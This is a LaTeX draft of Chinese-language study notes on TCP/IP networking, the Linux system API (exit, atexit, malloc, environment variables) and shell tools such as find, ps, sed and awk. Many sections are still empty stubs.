第一次建立连接是,双方都会使用系统默认设置来发送rwnd。浏览网页主要是从服务器向客服端发送数据,这样客服端的窗口可能会成为瓶颈。而上传图片或者视频,是客服端向服务器发送大量数据,服务器的接收窗口又可能成为制约因素。

窗口缩放。

\paragraph{慢启动}

拥塞窗口变量(cwnd),

\paragraph{队首阻塞}


\subsubsection{总结}

\begin{itemize}
\item 三次握手增加了整整一次往返时间。(因为的三次ACK可以携带应用数据)
\item 慢启动应用到每个连接
\item 流量及拥塞控制会影响到连接的吞吐量
\item 吞吐量由当前拥塞窗口的大小控制。
\end{itemize}

服务器对应的优化手段
\begin{itemize}
\item 增大TCP的初始拥塞窗口

\item 连接空闲时禁用慢启动,可以改善瞬时发送数据的长TCP连接的性能
\item 窗口缩放,增大最大接收窗口大小,可以让高延时的连接达到更好的吞吐量

\end{itemize}

应用程序行为的优化
\begin{itemize}
\item 能少发就少发
\item 缩短传输的距离
\item 重用TCP连接
\end{itemize}

\section{UDP}

\section{Wireless}

\section{HTTP}

\section{Web API}

\part{Linux}

\chapter{System API}


\section{进程环境}

\subsection{进程终止}


\subsubsection{进程终止方式}
进程终止方式:
\begin{itemize}
\item 正常方式:
\begin{itemize}
\item 从\lstinline$main$返回
\item 调用\lstinline$exit$
\item 调用\lstinline$_exit$或者\lstinline$_Exit$
\item 最后一个线程从其启动例程返回
\item 最后一个线程调用\lstinline$pthread_exit$
\end{itemize}
\item 异常方式:
\begin{itemize}
\item 调用\lstinline$abort$
\item 接收到一个信号并终止
\item 最后一个线程对取消请求作出响应
\end{itemize}
\end{itemize}

\subsubsection{exit函数}

\begin{C}
#include <stdlib.h>

void exit(int status);
void _Exit(int status);
\end{C}

\begin{C}
#include <unistd.h>
void _exit(int status);
\end{C}


\lstinline$_exit$和\lstinline$_Exit$终止程序之后立即进入内核;\lstinline$exit$函数会先执行一些清理处理,执行个终止处理程序,关闭所有的标准IO流。


\subsubsection{atexit函数}

\begin{C}
#include <stdlib.h>

int atexit(void (*func)(void));
\end{C}

\begin{C}
#include "apue.h"

static void my_exit1(void);
static void my_exit2(void);

void test_atexit(void)
{
	if (atexit(my_exit2) != 0)
		err_sys("cannot register my_exit2");
	if(atexit(my_exit1) != 0)
		err_sys("cannot register my_exit1");
	if(atexit(my_exit1) != 0)
		err_sys("cannot register my_exit1");

	printf("test_atexit is done\n");
}

static void my_exit1()
{
	printf("first exit handler.\n");
}

static void my_exit2()
{
	printf("second exit handler.\n");
}
\end{C}

\begin{Command-Line}[执行结果]
test_atexit is done
first exit handler.
first exit handler.
second exit handler.
\end{Command-Line}


\subsection{C程序内存布局}

\subsubsection{C程序的存储空间布局}


\begin{itemize}
\item 正文段,CPU执行的机器指令部分;
\item 初始化数据段,程序中明显的赋初值的变量。
\begin{C}[出现在任何函数之外的声明]
int max_count = 99;
\end{C}
\item 非初始化数据段,在程序开始之前,内核将此段中的数据初始化为0或者空指针。
\begin{C}[出现在任何函数外的C声明]
long sum[1000];
\end{C}
\item 栈,自动变量以及每次函数调用时所需要保存的信息放在此段中;
\item 堆,动态存储分配
\end{itemize}

\subsubsection{共享库}

\subsubsection{动态存储分配}

\begin{C}
#include <stdlib.h>

void *malloc(size_t size);
void *calloc(size_t nobj, size_t size);
void *realloc(void *ptr, size_t newsize);

void free(void *ptr);
\end{C}

三个函数返回的都是\lstinline$void *$通用指针。内存要满足最苛刻的对齐要求。
\begin{itemize}
\item \lstinline$malloc$,分配指定字节数的存储区,初始值不确定。
\item \lstinline$calloc$,分配给指定长度的具有指定长度的对象存储空间,每位都初始化为0;
\item \lstinline$realloc$,增加或者减少一起分配区的长度,当增长长度时,可能需要将以前分配区的内容移动到另外一个足够大的区域,新增区域内的初始值不确定。最后一个参数是存储区的新长度,而不是增加或者减少的长度。
\end{itemize}

\subsubsection{环境变量}

\begin{C}
#include <stdlib.h>

char *getenv(const char *name);
\end{C}

\begin{C}[成功返回0]
#include <stdlib.h>

int putenv(char *str);

int setenv(const char *name, const char *vlaue, int rewrite);
int unsetenv(const char *name);
\end{C}

\begin{itemize}
\item \lstinline$putenv$参数形式为name = value,如果已存在先删除其原来的定义。
\item \lstinline$setenv$,若rewrite非0,先铲除现有定义,若rewrite为0,则不修改现有定义,也不报错
\item \lstinline$unsetenv$,删除定义,没有也不报错。
\end{itemize}

由于环境变量表和环境变量字符串通常存放在进程存储空间的顶部,所以修改他的过程比较复杂。
%  以后补充
\begin{itemize}
\item 删除,...
\item 修改,...
\item 新增,...
\end{itemize}

\subsection{跨函数跳转 setjmp和longjmp}
\chapter{Notes}

\section{每天一条命令}
命令列表:
dd, find, grep, wc, iptables, \$((...)) , head



\subsection{find}

find列出指定目录及其子目录的文件和文件夹

\begin{Bash}[查找当前目录及子目录的文件和文件夹]
find .
\end{Bash}


\subsubsection{-print, -print0}
\lstinline$-print$, 打印出查找到的文件和文件夹,'\\n'作为文件名的间隔。默认情况下不输入-print也会打印出文件夹和文件名。

但是'\\n'是文件名的合法字符,所以这样可能导致错误的文件名。这个时候可以使用\lstinline$-print0$,这个时候改用'\\0'作为间隔。

\subsubsection{-name, -iname}

\lstinline$-name$指定了文件名必须匹配的字符串,可以含有通配符。\lstinline$-iname$作用和\lstinline$-name$一样,但是不区分大小写。

\begin{Bash}[名字匹配指定的字符串]

find . -name 'Lib'

find . -iname 'LIB'

\end{Bash}


\subsubsection{ -path, -regex, -iregex}


而\lstinline$-path$则是匹配路径(包含文件名)是否匹配给定字符串, \lstinline$-regex$和\lstinline$-path$类似,不过是基于正则表达式来匹配路径的。

这部分需要加强,已将《学习正则表达式》加入日程之中。


\subsubsection{否定参数 !}

\begin{Bash}[名字不以.txt结尾的文件]

find . ! -name "*.txt"

\end{Bash}


\subsubsection{基于深度查询 -maxdepth, -mindepth}

\begin{Bash}[查找第二层目录的所有文件]

find . -maxdepth 2 -mindepth 2

\end{Bash}

\begin{Bash}[深度为0的文件就是查找的目录]

find . -maxdepth 0

find /root -maxdepth 0

\end{Bash}

\subsubsection{-type 文件类型}

\begin{Bash}

find . -type f 

find . -type d

\end{Bash}


% 这里使用表格, 今天回家搞定

文件		f

目录		d

符号链接	l

...


\subsubsection{按文件时间}


\begin{itemize}
\item 访问时间 -atime(access time) 最近一次访问时间
\item 修改时间 -mtime(modify time) 文件内容最后一次修改时间
\item 变化时间 -ctime(change time) 文件元数据(权限或者所有权)最后一次改变时间
\end{itemize}


\begin{Bash}[单位是天, 当前为0]

find . -atime -7  # 最近7天访问过的

find . -atime 7	  # 刚好7天前访问过

find . -atime +7  # 访问时间超过7天

\end{Bash}


\subsubsection{-size 基于文件大小}


\begin{Bash}

find . -type f -size +2k 		# 大于2KB的文件

find . -type f -size 2k			# 等于2KB的文件

find . -type f -size -2k		# 小于2KB的文件
\end{Bash}


\subsubsection{-perm 权限}

\subsubsection{-delete}

\begin{Bash}[删除匹配的文件]

find . -type f -perm 644 -delete


\end{Bash}

\subsubsection{-exec 将查找的文件当做输入执行命令}

\subsubsection{多个条件}

\subsubsection{跳过特定目录}

\begin{Bash}[]

find devel/source_path \( -name ".git" -prune \) -o \( -type -f -print \)

\end{Bash}

\subsubsection{结合xargs}




\subsection{解压命令 tar}

\begin{Bash}
tar -xzvf xx.tar.gz # -z解压tar.gz

tar -xjvf xx.tar.bz2 # -j解压tar.bz2

# -v 打印处理过程
# -x 解压
# -f 不知道
\end{Bash}


\subsection{创建链接命令 ln}

\begin{Bash}
ln -s item link # 创建symbol link, 如果item是相对位置,则是相对于link的位置。
ln file link # 默认创建硬链接
\end{Bash}


符号链接类似于windows的快捷方式;


硬链接应该就是一个真正指向文件的链接。只有所有的硬链接都删除,文件才会被删除。等书拿出来之后补充。

\begin{Bash}

\end{Bash}

\subsection{判断当前脚本是否是以root用户来执行}


\$(..)看做`..`的另外一种形式。将一条或多条命令的output重新分配。



\begin{Bash}[old way]
#!/bin/bash
# Init
FILE="/tmp/out.$$"
GREP="/bin/grep"
#....
# Make sure only root can run our script
if [ "$(id -u)" != "0" ]; then
   echo "This script must be run as root" 1>&2
   exit 1
fi
# ...
\end{Bash}


\begin{Bash}[new way]
#!/bin/bash
# Init
FILE="/tmp/out.$$"
GREP="/bin/grep"
#....
# Make sure only root can run our script
if [[ $EUID -ne 0 ]]; then
   echo "This script must be run as root" 1>&2
   exit 1
fi
# ...
\end{Bash}

\section{shell中我感到疑惑或者不知道的东西}


\subsection{subprocess Vs. subshell}


\section{我记不太清楚的操作符}


\subsection{(...)}

\subsubsection{命令组}

命令组,会启动一个子shell(subsehll).

\subsubsection{数组初始化}


\section{收集进程资料}



常用的几条命令,ps,top, pgrep.

\subsubsection{ps}

ps不带任何参数,收集当前终端相关的进程。

\begin{itemize}

\item -f, full,包含更多列信息。

\item -e, every,系统上运行的所有信息,-ax(all)也可以达到同样效果。

%查一下a和x的含义

\item -o,指定想显示的列,用逗号作为限定符,分隔的参数之间没有空格。

\begin{itemize}
\item pcpu
\item pid
\item ppid
\item pmem
\item com, 可执行文件名
\item cmd
\item user
\item nice, 优先级
\item time, 累计CPU时间
\item etime, 启动后流逝的时间
\item tty
\item euid,有效用户ID
\item stat, 进程状态
\end{itemize}

参数后面加上=号,表示移除列名,不是说移除这一列。

% -o使用的过滤器是什么?查一下。

% u呢,是什么啊?

% -f呢?

% ps aux 是怎么说??

\item --sort,对命令进行排序,格式是

\begin{Bash}[参数前的+-表示升序或者降序]
ps [OPTIONS] --sort -parameter1,+parameter2,parameter3
\end{Bash}


\item -C,这里是大写C,指定命令名称.这里是要全称,如果使用pgrep就会好一些,只需要一部分名称就可以了。

%是要全称吗??如果是要全称,那这个不太好用啊。 pgrep是否更好用

\item -t,指定终端

\item -L,线程相关,这里先不关心了。

\item 原来f,u,w是一些制定好输出格式的选项。





\end{itemize}

\subsubsection{pgrep}

-d,指定定界符

-u,指定用户(拥有者)列表

-u和-U,小写是有效用户,大写是真实用户

%最后还是提醒我需要查看用户这部分的知识啊。



\subsubsection{top}

top

\subsubsection{which, whereis, file, whatis}

\paragraph{which} 找出某个命令的位置

\paragraph{whereis} 和which类似,但不仅返回命令的路径,还能够打印出其对应的命令手册的位置以及命令源代码的路径。

\paragraph{file} 可以用来确定文件的类型,这条命令会打印出该文件类型相关的细节信息。



\subsection{杀死进程及发送或者相应信号}

kill可以用来发送信号,trap用来处理所接受的信号

%这部分作为明天的内容算了,睡觉。



\chapter{Regex}


\section{我大概知道的基础}

\begin{itemize}
\item \lstinline$\d$ 和 \lstinline$\D$

匹配数字: \lstinline$\d$, \lstinline$[0-9]$

匹配非数字: \lstinline$\D$, \lstinline$[^0-9]$, \lstinline$[^\d]$

\item \lstinline$\w$, \lstinline$\W$

匹配所有的单词字符,在英语环境中,等同于\lstinline$[_a-zA-Z0-9]$

同样的\lstinline$\W$就是\lstinline$[^\w]$,或者\lstinline$[^_a-zA-Z0-9]$

\item \lstinline$\s$, \lstinline$\S$

\lstinline$\s$,就是\lstinline$[ \r\n\t]$,空格,回车,换行,制表符。

同理,\lstinline$\S$就是 \lstinline$[^ \r\n\t]$,或者\lstinline$[^\s]$

\item 单词边界\lstinline$\b$,匹配单词边界,不消耗任何字符。

\item .

匹配\lstinline$[^\n]$, 或者\lstinline$[^\r\n]$

.号通常不会匹配折行符(比如换行和回车)

\item 分组和引用

\item 

\end{itemize}


\section{DFA}




\chapter{Shell Commands}

\section{基本知识}

\section{执行}

\begin{Command-Line}[开头告诉shell使用什么bash]
#!/bin/bash
\end{Command-Line}


执行脚本:

\begin{itemize}
\item 脚本作为参数的方式
\begin{Command-Line}
bash script.sh   #脚本位于工作目录(当前目录)
\end{Command-Line}

\item 修改脚本成可执行文件

\begin{Command-Line}[内核会读取首行来确定执行的bash]
chmod a+x script.sh
./script.sh
\end{Command-Line}

\end{itemize}

\section{变量}

变量名就是一个他引用的value的占位符。需要区分变量名,和变量名引用的值。如果variable1是变量名的话。\$variable1是变量名引用的值

变量不需要使用前置\$的场景:
\begin{itemize}
\item 声明和赋值的时候;
\item \lstinline$unset$和\lstinline$export$的时候;
\item 数学表达式((...))
\item loop的头中
\item ...
\end{itemize}


\subsubsection{对变量求值}



\subsubsection{参数}

\begin{itemize}
\item \$0, \$1, \$2, ... \${10}, \${11}, etc!,对应位置的参数,\$0表示的是命令名,参数是从\$1开始。
\item \$\#参数个数。
\item \$* 所有参数,但是是当做一个参数
\item \$@ 所有参数,但是是当做分开的参数
\item \lstinline$shift$ 是的所有参数都往前移动一位,\$1被丢弃。
\end{itemize}

\begin{Command-Line}[\$*和\$@的区别]
x
x
x
\end{Command-Line}

\section{String}

\section{exit和exit的状态}

可以使用\$?来取得最后执行的命令的exit status的值,0表示success。


在函数中,可以使用return来返回exit status。如果没有返回,则最后执行的一条语句的exit status就是函数的exit status。

\section{测试}

\subsubsection{if, else}

对于ifelse,其实就是判断条件的exit status来看执行哪个分支,0表示真,1表示false,因为在Unix中,0状态码表示success。

\subsubsection{test}

\lstinline$test$, \lstinline$[$

test的参数被当做comparison expression或者file test。根据比较结果来返回exit status,0为true,1为false。

\lstinline$[$是built-in命令;

\lstinline$test expr$

\lstinline$[expr]$

\begin{itemize}
\item !expr
\item (expr)
\item expr1 -a expr2
\item expr1 -o expr2 
\end{itemize}

expr计算结果按下面的规则根据参数的个数来返回结果
\begin{itemize}
\item 0 argument,结果是false
\item 1 argument,当argument不为null的时候,结果是true
\item 2 arguments

当第一个参数是!,之后当第二个参数是null的时候结果才为true

\begin{Command-Line}

上面的实例

\end{Command-Line}

当地一个参数是unary操作符,结果就是unary操作的结果;如果第一个参数是个非法的unary,则结果是false。


\item 3 arguments 

如果第二个参数是binary操作符,结果就是将第一个参数和第三个参数做为操作数,binary的结果。

如果第一个参数是!,那么结果就是将第二个和第三个参数按上面的描述执行

如果第一个参数是(,第三个参数是),则第二个参数按照一个参数执行方式执行,结果就是他。

否则,表达式结果是false。

\item 4 arguments

如果第一个是!,后面三个就按照三个参数的方式计算,否则按优先级使用上面的规则

\item 5 arguments

按优先级使用上面的规则

\end{itemize} 


File test Operators

\begin{itemize}
\item -e, -a file exist, 判断文件是否存在,-a已经不推荐使用。
\item -a

\item -s file is not zero size.

\item -f
\item -d
\item -b
\item -c
\item -p
\item -h
\item -L
\item -S
\item -t

\item -r
\item -w
\item -x

\item -g
\item -u
\item -k

\item -O you are owner of file.
\item -G group-id of file same as yours.
\item -N file modified since it was last read.

\item f1 -nt f2 
\item f1 -ot f2
\item f1 -ef f2

\item !
\end{itemize}


Integer comparison
\begin{itemize}
\item -eq
\item -ne
\item -gt
\item -ge
\item -lt
\item -le
\end{itemize}

String comparison
\begin{itemize}
\item =
\item ==
\item !=

\item \lstinline$\<$
\item \lstinline$\>$

\item -z is null
\item -n is not null
\end{itemize}

\lstinline$[$和\lstinline$[[$中=和==不同的场景

test有\lstinline$[$和\lstinline$[[$

\subsubsection{let \& ((...))}

((...)) and let construct return an exit status, according to whether the arithmetic expressions they evaluate expand to a non-zero value.

\begin{Command-Line}
[root@192 tmp]# ((0 && 1))
[root@192 tmp]# echo $?
1
[root@192 tmp]# let "num = ((0 && 1))"
[root@192 tmp]# echo $num
0
[root@192 tmp]# let "num = ((0 && 1))"
[root@192 tmp]# echo $?
1
[root@192 tmp]# ((200 || 11))
[root@192 tmp]# echo $?
0
[root@192 tmp]# let "num = ((200 && 1))"
[root@192 tmp]# echo $num
1
[root@192 tmp]# let "num = ((200 && 1))"
[root@192 tmp]# echo $?
0
\end{Command-Line}

这里结果都很明确,搞清楚数学表达式的值和let及\lstinline$((...))$exit status的关系就可以了。

数学表达式的值非零的话,let和\lstinline$((...))$的exit status就是0,数学表达式的值为零的时候,exit status就为1.

然后就是在各种语言中\lstinline$num=2+1$的值就是num的值3,比如说c语言中经常出现的语句\lstinline$if((c=getchar()) != EOF){...}$


\lstinline$((...))$的Integer Comparison
\begin{itemize}
\item <
\item <=
\item >
\item >=
\end{itemize}


\section{运算符}


\section{sed \& awk}

\subsection{基本操作}

sed和awk的共同点:
\begin{itemize}
\item 相似的语法来调用。
\item 面向字符流,都是从文本文件中一次一行的读取输入,并将输出直接送到标准输出端。
\item 都使用正则表达式进行模式匹配。
\item 都允许用户在脚本中指定指令。
\end{itemize}

感觉重点就是第二个,从文本中一次一行的读取输入。


命令行的语法:
\begin{Command-Line}
command [option] script filename
\end{Command-Line}

sed和awk也可以从标准输入中读取输入,并将输出发送到标准输出;如果制定了文件名filename,则输入从这个文件中取得。在重定向输出的时候,是不能够指定为输入的同一个文件的。

script指定了要执行的指令,如果是在命令行,假如它包含有可以由shell解释的空格或者任意字符,那么他必须用单括号括起来。

sed和awk都有-f选项可以指定脚本文件的名字。

\begin{Command-Line}
sed -f scriptfile inputfile
\end{Command-Line}

sed和awk基本操作是,每次读取一行输入,生成该输入行的备份,并且对该备份执行脚本中指定的指令,因此,对输入行所做的改动不会影响正真的输入文件。


\subsubsection{sed处理过程}
sed和awk的每个指令都包含两部分:模式和过程。模式是由斜杠(/)分割的正则表达式。过程指定一个或者多个将被执行的动作。

当读取输入的每行时,程序赌气脚本中的第一个指令并检测当前行的模式,如果没有没有匹配,过程被忽略,并读取下一条指令;如果有一个匹配,那么执行过程中指定的一个或者多个动作。读取所有的指令,而不只是读取与输入行匹配的第一条指令。

过程sed类似于航编辑器中使用的那些编辑命令组成,而awk中则可以使用程序设计语句和函数组成(过程必须用大括号括起)。


\subsubsection{sed示例}
\begin{Command-Line}[用来被处理的文件]
[root@192 tmp]# cat list
John Daggett, 341 King Road, Plymouth MA
Alice Ford, 22 East Broadway, Richmond VA
Orville Thomas, 11345 Oak Bridge Road, Tulsa OK
Terry Kalkas, 402 Lans Road, Beaver Falls PA
Eric Adams, 20 Post Road Sudbury MA
Hubert Sims, 328A Brook Road, Roanoke VA
Amy Wilde, 334 Bayshore Pkwy, Mountain View CA
Sal Carpenter, 73 6th Street, Boston MA
\end{Command-Line}

\begin{Command-Line}[将MA替换成Massachusetts]
[root@192 tmp]# sed 's/MA/Massachusetts/' list
John Daggett, 341 King Road, Plymouth Massachusetts
Alice Ford, 22 East Broadway, Richmond VA
Orville Thomas, 11345 Oak Bridge Road, Tulsa OK
Terry Kalkas, 402 Lans Road, Beaver Falls PA
Eric Adams, 20 Post Road Sudbury Massachusetts
Hubert Sims, 328A Brook Road, Roanoke VA
Amy Wilde, 334 Bayshore Pkwy, Mountain View CA
Sal Carpenter, 73 6th Street, Boston Massachusetts
\end{Command-Line}

这里使用单引号,是因为这样使得对于shell来说是特殊字符的字符表达本身的意思。

\begin{Command-Line}[多条指令的时候的两种方式]
[root@192 tmp]# sed 's/MA/, Massachusetts/; s/PA/, Pennsylvania/' list
[root@192 tmp]# sed -e 's/MA/, Massachusetts/' -e 's/PA/, Pennsylvania/' list
\end{Command-Line}

一种是通过分号,另外一种是使用-e选项。

-f来执行脚本文件是创建长的指令的好的方式。

-n选项可以阻止自动输出,这个时候,如果要输出的指令都必须包含打印命令p(如果不带-n的时候,使用了p指令,那么一个被处理了的行会输出多次)

\begin{Command-Line}
sed -n 's/MA/Massachusetts/p' list
\end{Command-Line}

\subsubsection{awk}

基本上命令行和sed类似,读取标准输入或者文件,输出到标准输出;多条指令使用";"隔开;-f读取脚本文件等等。

但是,awk会将每个输入行解释成一条记录,而将一行上的每个单词(由空格或者制表符分隔)解释为每一个字段(这些默认设置可以修改的)。可以在模式或者过程中引用这些字段。\$0代表整个记录。

\begin{Command-Line}[没有指定模式的情况下就是所有行]
awk '{print $1}' list
\end{Command-Line}
%$
\begin{Command-Line}[指定模式]
awk '/MA/{print $1}' list
\end{Command-Line}
%$

可以使用-F选项来制定分隔符。

\begin{Command-Line}[-F紧跟着指定分隔符]
awk -F, '/MA/{print $1}' list
\end{Command-Line}
%$

\section{sed脚本}

\subsection{sed的基本原理}

理解sed,需要理解的三个基本原理
\begin{itemize}
\item 脚本中的所有编辑命令都将依次应用于每个输入行;
\item 命令应用于所有的行,除非寻址限制了受编辑命令影响的行;
\item 原始的输入未被改变,编辑命令修改了原始行的备份并且此备份被发送到标准输出。
\end{itemize}

\subsubsection{所有编辑命令依次应用于每一个输入行}

对已后面的命令,他处理的是前一个命令处理过的行的内容,而不是原始的行的内容。

% 举个例子

\subsubsection{寻址是全局的,对应所有的行}

\subsubsection{原始输入不会改变,结果发送到标准输出}










\part{Protocol}

\chapter{TCP IP}


\section{分层}


\section{主要协议基本介绍}


\section{以太网数据报}

\section{IP数据报}


\section{ARP RARP}

\section{ICMP}


\section{IP路由}

\subsubsection{选路原理}
\begin{enumerate}
\item 搜索匹配的主机地址;
\item 搜索匹配的网络地址;
\item 搜索默认表项
\end{enumerate}
\subsubsection{路由表}


Flags
\begin{itemize}
\item U 该路由可以使用
\item G 该路由是一个网关(路由器),如果没有这个标志,说明目的地是直接相连的

这个标志的重要性,他区分了间接路由和直接路由(直接路由不设置标志G)。区别是发往直接路由的分组中不但具有指明的目的IP地址,还具有其链路层地址。而对于间接路由,IP地址指明的是最终目的地,但是链路层地址指明的是网关(即下一站路由器)。

这里我的理解是。对于同一个局域网的主机,只需要一条记录,就是网络号的部分,然后所有主机都使用这一条记录,所以IP数据报发送出去的目的和链路层都是目的主机的。

\item H 该路由是到一个主机
\item D
\item M
\end{itemize}

如果没有默认路由,没有找到匹配项的情况下,如果是本机产生的,就给应用程序返回一个差错:或者主机不可达,或者网络不可达错。
如果是转发的数据报,那么就给原始端发送一份ICMP主机不可达差错报文。

一般主机不转发数据报,除非对他们进行了设定作为路由器使用。

\paragraph{ICMP重定向}
\begin{enumerate}
\item 主机发送一份数据报到R1,比如因为R1是默认主机;
\item R1接收到数据报并且检查路由表,发现R2是发送该数据报的下一站,当他把数据报发送到R2是,发现接收和发送的接口是相同的(即主机和两个路由器所在的LAN),这样就给路由器发送重定向报文给原始发送端提供了线索
\item R1发送一份ICMP重定向报文给主机,告诉他以后数据报发送给R2而不是R1
\end{enumerate}

%此处需要插入图片

生成ICMP重定向报文的条件:
\begin{itemize}
\item 出口和入口相同
\item 用于向外传送数据报的路由不能被ICMP重定向报文创建或者修改,而且不能是路由器的默认路由;
\item 数据报不能用源站选路来转发
\item 内核必须配置成可以发送重定向报文
\end{itemize}

接收重定向报文的主机必须确定满足下面条件才能修改路由表
\begin{itemize}
\item 新的路由器必须直接与网络相连接
\item 重定向报文必须来自当前到目的地所选择的路由器
\item 被修改的路由器必须是一个间接路由
\end{itemize}

\paragraph{ICMP路由器发现报文}

\subsubsection{动态选路协议}
相邻的路由器之间通信,以告诉对方每个路由器当前所连接的网络。

RIP(选路信息协议)

RIP报文包含在UDP数据报中,常用的UDP端口为520.

报文格式:

\begin{itemize}
\item 初始化

在启动一个路由守护进程时,先判断启动了哪些接口,并在每个接口上发送一个请求报文,要求其他路由器发送完整路由表。

命令字段为1,度量为16(特殊请求,要求对方发送完整路由表的请求)。

\item 接收响应,如果是上面的特殊请求,则发送完整路由表,否则处理请求中的每一个选项,如果有连接,则指明连接到目的地的路由,将度设定为我们的值,否则设定为16(表示无穷大),然后响应。

\item 定期更新,每个30秒,所有或者部分路由会将其完整路由表发送给相邻的路由器。广播形式。

\item 触发更新 当一条路由的度发生变化时,就对他进行更新,只发送发生变化的项。

每条路由都有与之相应的计时器,如果运行RIP的系统发现一条路由3分钟内未更新,则将该路由设置为无穷大(16),并且标注为删除,再过60秒,在本地路由表中删除该路由,以保证该路由表的失效已被传播开。

\end{itemize}

缺陷,没有子网概念。



\section{UDP}

\subsubsection{UDP数据报}

封装成IP数据报的格式。


\includegraphics[scale=0.5]{protocol/resources/UDP-IP.png}


\subsubsection{UDP首部}

16位源端口,16位目的端口,16位UDP长度(首部+数据,最小8字节),16位UDP校验和

\subsubsection{IP分片}

\begin{itemize}
\item IP层收到一份要发送的数据报时,要判断向本地的哪个接口发送,并查询该接口获得他的MTU。比较数据报长度和MTU,如有需要就进行分片。

\item 可以在原始主机或者中间路由进行分片

\item 一份IP数据报分片后,只能在目的主机才进行重新组装

\item IP首部标识字段都包含维一值,该值在分片时被复制到每一个分片,用其中1bit来表示是否有更多分片,除最后一个分片,其他都被置成1.片偏移字段表示偏离原始数据开始位置。

\item 标示位有1bit表示“不分片”,如果这个位被置为1,则要分片时不进行分片,丢弃数据并返回一个ICMP错误报文。

\item 分片丢失需要重传整个IP数据报
\end{itemize}

\subsubsection{ICMP(需要分片)}


\includegraphics[scale=1]{protocol/resources/ICMP-header.png}

如果路由不能提供这种新格式的ICMP,则下一站MTU设置0。

\subsubsection{Traceroute确定路径MTU}

设置不可分片,最开始使用出口的MTU,当收到ICMP不可分片差错时,如果是最新的ICMP报文,就包含下一站最小MTU,则使用这个MTU来发送,否则,使用下一个可能的MTU(RFC1191声明可用的MTU个数是有限的)

\subsubsection{UDP服务器设计}



\section{广播和多播}

\subsection{广播}

四种广播地址

\subsubsection{受限的广播地址}

255.255.255.255,用于网络配置过程中IP数据报的目的地址,此时,主机可能还不知道主机所在网络的网络掩码,可能主机连IP地址都不知道。

路由不转发目的地址为受限广播地址的数据报。

\subsubsection{指向网络的广播地址}

\subsubsection{指向子网的广播地址}

\subsubsection{指向所有子网的广播地址}

\subsection{多播}



\section{TCP}

\subsection{首部}

\begin{itemize}
\item 应用数据被分割成TCP认为最合适发送的数据块
\item TCP发送一个段后,启动一个定时器,等待目的地确认接收到这个段,如果不能及时收到确认,则重传。
\item TCP收到另一端的数据后,会发送一个确认,不会立即发送,而是延时几分之一秒
\item TCP通过IP传送,到达可能失序,TCP会重新排列之后,将数据发送给应用程序。
\item TCP提供流量控制

\end{itemize}


一个IP地址加一个端口也称为socket。插口对(socket pair) (包含客户IP地址、客户端口号、服务器 IP地址和服务器端口号的四元组 )可唯一确定互联网络中每个TCP连接的双方。


\includegraphics[scale=3]{protocol/resources/TCP-header.jpg}


\begin{itemize}
\item 序号,TCP用序号对每个字节计数,32bit无符号数,表示这个报文中第一个数据字节。到达$2^{32} - 1$之后重新从0开始。最开始的值为ISN,然后SYN占掉1位,所以第一个TCP数据段的序号是ISN+1。

\item 数据偏移(首部长度),因为有可变长度的选项。最小20字节,没有选项,最大60字节。

\end{itemize}

\subsection{建立和终止连接}

\subsubsection{建立连接}

\begin{enumerate}
\item 请求段发送一个SYN段指明客户端打算连接到服务器的端口,以及初始序列(ISN);

\item 服务器发回包括服务器初始ISN的报文段作为应答,同时将确定序号设置为客户的ISN+1以对客户端的SYN报文段进行确认;

\item 客服端将确认序号设置为服务器ISN+1,用来对服务器的SYN进行确认。

\end{enumerate}

\subsubsection{终止连接}

建立连接由3次握手完成,二断开连接需要经过4次握手。TCP连接是全双工,因此需要每个方向单独关闭。

\begin{enumerate}
\item 客服端发送一个FIN,服务器响应一个ACK,确认序号为客服端的序号+1

\item 服务器发送一个FIN,客服端响应一个ACK,确认需要为服务器的序号+1
\end{enumerate}

\subsubsection{延时确认}

在收到消息时,不会马上确认,而会延时200ms看看是否有数据要随ACK一起发送。

ACK是累计的,不必每条数据都需要ACK,ACK表示ACK - 1的字节都已收到。

\subsubsection{窗口}

窗口更新

窗口滑动

\subsubsection{慢启动}

拥塞窗口(congestion window),cwnd





		
\newpage
%\end{CJK}  
\end{document}